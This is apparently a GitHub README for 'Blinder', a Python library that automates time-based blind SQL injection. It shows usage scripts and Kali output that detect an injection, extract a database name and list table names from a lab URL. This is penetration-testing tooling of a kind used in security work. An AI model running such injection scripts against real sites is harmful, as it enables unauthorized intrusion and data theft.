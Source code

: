 # Blinder

Blidner is a small python library to automate time-based blind SQL injection by using a pre defined queries as a functions to automate a rapid PoC development.

# Installation

You can install Blinder using the following command:

`pip install blinder`

Or by downloading the source and importing it manually to your project.

# Usage

To use blinder you need to import `Blinder` module then start using the main functions of Blinder.

You can use Blinder "with the current version" to do the following:

* Check for time based injection.
* Get database name.
* Get tables names.

**You can check for injection in a URL using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print blind.check_injection()

```

The execution result will be:

```
root@kali:~/Desktop# python check.py
True
root@kali:~/Desktop#
```
**You can Get database name using the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

print "Database name is : %s " % blind.get_database()

```

And the results will be:

```
root@kali:~/Desktop# python get-database.py
Database name is : db1
root@kali:~/Desktop#
```

**To get tables names you can use the following code:**

```
#!/usr/bin/python

import Blinder

blind = Blinder.blinder(
    "http://sqli-lab/sql_injection/index.php?search=3",
    sleep=1
 )

tables = blind.get_tables()

for table in tables:
    print table

```
And the results will be:

```
root@kali:~/Desktop# python get-tables.py
blogs
notes
root@kali:~/Desktop#
```
# TODO

A lot of features should be added soon like:

* [ ] the ability of adding customized query
* [ ] test injection points based on burp request
* [ ] extract tables/columns data
